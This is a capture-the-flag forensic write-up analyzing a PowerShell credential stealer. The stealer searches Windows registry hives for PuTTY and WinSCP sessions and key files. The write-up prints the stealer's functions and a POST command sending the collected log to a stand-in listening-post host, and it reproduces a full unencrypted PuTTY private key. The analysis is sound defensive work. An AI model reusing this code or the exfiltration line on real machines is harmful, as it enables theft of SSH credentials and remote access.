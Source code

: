 ### First Insights

At this point in the investigation we now know that we had a malicious script execute on an employee's machine. Now that we have discovered the script, we need to examine the code being executed to determine what data the malware stole from the machine and sent to the LP. This will require a full breakdown of the malware and examination of files that the script accessed. This task attached an artifacts.zip, which contained multiple PuTTY and WinSCP keys and the employee's NTUSER.dat file. With these given files, along with the malware script, we have a good route to determine the extent of the breach.

### Malware Examination

Our first step to find the comprimised OOPS account is to examine the malware. The entire script is included in this task's directory, but we will be using snippits of it.
After the inital function declarations, we see that there is a global log that is being sent back to the listning post and the Invoke-SessionGopher function is called. It is also the only function really called from the main line so we will start there.

```powershell
function Invoke-SessionGopher {
  # Value for HKEY_USERS hive
  $HKU = 2147483651
  # Value for HKEY_LOCAL_MACHINE hive
  $HKLM = 2147483650

  $PuTTYPathEnding = "\SOFTWARE\SimonTatham\PuTTY\Sessions"
  $WinSCPPathEnding = "\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions"


  Write-Log "Digging on $(Hostname)..."

  # Aggregate all user hives in HKEY_USERS into a variable
  $UserHives = Get-ChildItem Registry::HKEY_USERS\ -ErrorAction SilentlyContinue | Where-Object {$_.Name -match '^HKEY_USERS\\S-1-5-21-[\d\-]+$'}

  # For each SID beginning in S-15-21-. Loops through each user hive in HKEY_USERS.
  foreach($Hive in $UserHives) {

    # Created for each user found. Contains all PuTTY, WinSCP, FileZilla, RDP information.
    $UserObject = New-Object PSObject

    $ArrayOfWinSCPSessions = New-Object System.Collections.ArrayList
    $ArrayOfPuTTYSessions = New-Object System.Collections.ArrayList
    $ArrayOfPPKFiles = New-Object System.Collections.ArrayList

    $objUser = (GetMappedSID)
    $Source = (Hostname) + "\" + (Split-Path $objUser.Value -Leaf)

    $UserObject | Add-Member -MemberType NoteProperty -Name "Source" -Value $objUser.Value

    # Construct PuTTY, WinSCP, RDP, FileZilla session paths from base key
    $PuTTYPath = Join-Path $Hive.PSPath "\$PuTTYPathEnding"
    $WinSCPPath = Join-Path $Hive.PSPath "\$WinSCPPathEnding"

    if (Test-Path $WinSCPPath) {

      # Aggregates all saved sessions from that user's WinSCP client
      $AllWinSCPSessions = Get-ChildItem $WinSCPPath

      (ProcessWinSCPLocal $AllWinSCPSessions)

    } # If (Test-Path WinSCPPath)

    if (Test-Path $PuTTYPath) {

      # Store .ppk files
      $PPKExtensionFilesINodes = New-Object System.Collections.ArrayList

      # Aggregates all saved sessions from that user's PuTTY client
      $AllPuTTYSessions = Get-ChildItem $PuTTYPath

      (ProcessPuTTYLocal $AllPuTTYSessions)

      (ProcessPPKFile $PPKExtensionFilesINodes)

    } # If (Test-Path PuTTYPath)

  } # For each Hive in UserHives

  Write-Host "Final log:"
  $global:log
```
This function acts as the "main" of the script. It gives away what data the malware is attempting to dig in the declarations of *$PuTTYPathEnding* and *$WinSCPPathEnding*. These tell us that the malware is attempting to look for stored data about the machine's PuTTY and WinSCP sessions. The malware then looks in the Windows User Registry for all past and current users on the machine. After collecting all of the users, the script calls two methods, *ProcessWinSCPLocal* and *ProcessPuTTYLocal*. This confirms that the malware is digging for ssh credentials. We will now look at the *ProcessPuTTYLocal* method.

``` powershell
function ProcessPuTTYLocal($AllPuTTYSessions) {

  # For each PuTTY saved session, extract the information we want
  foreach($Session in $AllPuTTYSessions) {

    $PuTTYSessionObject = "" | Select-Object -Property Source,Session,Hostname,Keyfile

    $PuTTYSessionObject.Source = $Source
    $PuTTYSessionObject.Session = (Split-Path $Session -Leaf)
    $PuTTYSessionObject.Hostname = ((Get-ItemProperty -Path ("Microsoft.PowerShell.Core\Registry::" + $Session) -Name "Hostname" -ErrorAction SilentlyContinue).Hostname)
    $PuTTYSessionObject.Keyfile = ((Get-ItemProperty -Path ("Microsoft.PowerShell.Core\Registry::" + $Session) -Name "PublicKeyFile" -ErrorAction SilentlyContinue).PublicKeyFile)

    # ArrayList.Add() by default prints the index to which it adds the element. Casting to [void] silences this.
    [void]$ArrayOfPuTTYSessions.Add($PuTTYSessionObject)

    # Grab keyfile inode and add it to the array if it's a ppk
    $Dirs = Get-ChildItem $PuTTYSessionObject.Keyfile -Recurse -ErrorAction SilentlyContinue
      foreach ($Dir in $Dirs) {
        Switch ($Dir.Extension) {
          ".ppk" {[void]$PPKExtensionFilesINodes.Add($Dir)}
        }
      }
  }

  if ($o) {
    $ArrayOfPuTTYSessions | Export-CSV -Append -Path ($OutputDirectory + "\PuTTY.csv") -NoTypeInformation
  } else {
    Write-Log "PuTTY Sessions"
    Write-Log ($ArrayOfPuTTYSessions | Format-List | Out-String)
  }

  # Add the array of PuTTY session objects to UserObject
  $UserObject | Add-Member -MemberType NoteProperty -Name "PuTTY Sessions" -Value $ArrayOfPuTTYSessions

} # ProcessPuTTYLocal
```
This is the one of the bulk digging functions of the malware. This method looks at each PuTTY session store in the Registry and extracts two values, *HostName* and *PublicKeyFile*. These two values are exactly what the malware needs to be able to get into a machine, as long as the Public Key file is non-encrypted. From all of the parsed keyfiles in the registry the malware then searches the machine for the matching key files and saves them to the global log as a .csv. The other digging method looks for WinSCP sessions and does the same thing. After the registry and key files are parsed, the malware then makes it POST request to the LP.

```
Invoke-WebRequest -uri http://rlwmw.invalid:8080 -Method Post -Body $global:log
```
Now knowing that the malware is searching for unsecure keys stored on the machine, we must look at the included NTUSER registry file to see if any keys are not encrypted.

### Understand Windows Registry

The first step to examine the Registry is to know how to open the file. After research, I was able to load the hive onto my windows machine and was ready to see what the malware touched. (Note: regexsh also works for linux machines to examine the file from the command line.) Following the path in the malware, I was albe to see that there was a decent amount of files that the malware examined. 

```powershell
$PuTTYPathEnding = "\SOFTWARE\SimonTatham\PuTTY\Sessions"
$WinSCPPathEnding = "\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions"
```

![image](https://user-images.githubusercontent.com/94944325/145702185-36260c1c-2458-4dc1-99ce-eb84cb5d11fb.png)

Looking into the registry, we were able to narrow down the list of keys we needed to find that could be unencrypted. We can see that there are 5 PuTTY keys that we need to verifyied.


### Determine Comprimise

After knowing which PuTTY Sessions were stored in the employee's registy, we now need to look at the session keys to make sure they are encrypted. After searching through the 5 keys present, we found that the key for dkr_prd72 was not encrypted, meaning the LP now how the credentials to ssh into the machine.

```
PuTTY-User-Key-File-2: ssh-rsa
Encryption: none
Comment: __COMP4__
Public-Lines: 6
AAAAB3NzaC1yc2EAAAABJQAAAQEAi2xdUFsRQhaU92qNU6U+pbUbHT+8me2TiY+v
8Nc3VHBuQRQ1p4OjJuhryN0dTv18uaW1lc1uFBHWExpPYaBAP3O7HzTfRD/o5xYH
L2+NMELqIeMkHMa/5BDzOB+sTObQdLJ5ZlAlczBdDsKI7hQwp9w6VherXzadGx2N
rD/uME4ETJZj/a3WqdmYU5JinX58DwM8zqALh3CMZP0ZE7tPiW5vyEo6TDYX9o02
l2V5+Cah8zpyXSiIYEe3WKqp2Ohl83J2E/FuWse3kGiSdBVk3JMtmsZkzmL25wh9
K3LjdS3hzmi6z7IT1rmU+5yOR+Km9dTCvqY27AU0fouGNlDi8w==
Private-Lines: 14
AAABAHELwUgSfLIgJcGwVunf7ZsdOJRBhCnHjGGyxgGL56w/e/1qVQRc5SZ3QqLc
y6fUcvdjw6nk1csVYXdFw9Kdm+BrrHoq3opdVQ5k4zs32kLOeKXaw1WaOrjrJhHU
fd184F6ei/IXeE+O/1gTWkR/ErGdzm9RdjGGOjGpQm/8e+/PWYizwcOTJfCXuFKF
qaOJbCovinuFic+376Rhgo5Vo0sqqjlkRC8EPrewBbjc157Y2okKVmoc2H75XV1/
uBZ3o6oS8KknQAwYSdQZmdLnx2Uqft8j5MvdjsA+JHRmIjPWa2/UjOaPjPi4U6OH
uC1tK+xUF7Du0OAHIErSQYTeDv0AAACBANOT1+3kz7BzkptUoYJL6Y34S7NMemYu
IzcgWP+4fH4MS9G6yd2B+vUff/yo3uWddF/o8A0TLyjHTY01EVIN+qafgcqPD4aA
GjQonifN0KJnsa8XqADuW4qZl7vB8ZNOA8SYHtpzgVbYsnABus8LV5g3AqAFI7UF
DEMEJ6ZQ3P8HAAAAgQCoskcpQUJEODaImSnkbklPFeNNpYl7YaY2PivWNDuZKPaH
18j3oU+AJ7QhzsuKbB5FlHlhHG9lpwrhp8AW4mtCRnLpGqj2urGw4jNgIibmIsau
1k/85JhNT0Y/HjaMXrK61wf/YfcoujTf9HYX0VE2cK6wLBezfVaN6ukXn3MVtQAA
AIB2+HEmxXUIAqNj7Us3KjvUXVEzzYfT+J+MqkC22GJbKsUWGb+0EWTSLgTQtI83
WxEFBGJ1fo5pQ0KHDEdry9+s91yrHlMnfQBl33R8eKZKdknvh53C0ney+4C21Fc+
u++6hO4qP3foJEIJ4t7wPTtMOVNHRkfFLnGPSFy7jwjWMA==
Private-MAC: 69516e4c3f42737590234ba010954761879abd61
```

In order to get the flags of the user and machine, we simply need to navigate to the this keys location in the registry file and extract the value of the key.

![image](https://user-images.githubusercontent.com/94944325/145702220-e11866e9-264f-4a22-8ace-248b463eba21.png)

![image](https://user-images.githubusercontent.com/94944325/145702234-fc112f06-a083-4d61-a894-afe4fc4ad68d.png)

To complete this task, we were looking for the Hostname and Machine that the attacker now has access to, this can be seen in the snippits of the registry variables above. Since the PuTTY key is not encrypted, the LP can now ssh into the machine freely using builder07@drk_prd72.

Author: 

@seththegardner

Editor:

Hourglass aka Me

